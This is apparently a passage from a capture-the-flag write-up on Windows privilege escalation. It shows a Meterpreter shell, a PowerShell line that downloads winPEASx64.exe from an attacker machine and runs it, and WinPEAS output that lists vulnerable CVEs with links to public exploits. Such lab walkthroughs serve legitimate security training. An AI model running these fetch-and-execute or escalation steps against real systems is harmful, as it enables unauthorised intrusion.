 Execute winpeas after shell-ing into the meterpreter session:

```
meterpreter > shell
Process 604 created.
Channel 5 created.
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Desktop>.\winPEASx64.exe
```

#### Using powercat reverse shell

After changing to `powershell`, we can use the following command to get `winPEASx64.exe` from the attacker machine onto the victim machine. :

```powershell
wget http://10.10.14.28:8000/winPEASx64.exe -o winPEASx64.exe; .\winPEASx64.exe
```

WinPEAS gives us some critical vulnerabilities:

```
[!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-0841 : VULNERABLE
  [>] https://github.com/rogue-kdc/CVE-2019-0841
  [>] https://rastamouse.me/tags/cve-2019-0841/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1253 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2019-1253
  [>] https://github.com/sgabe/CVE-2019-1253

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1385 : VULNERABLE
  [>] https://www.youtube.com/watch?v=K6gHnr-VkAg

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/                                                                                                                                                                            
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

```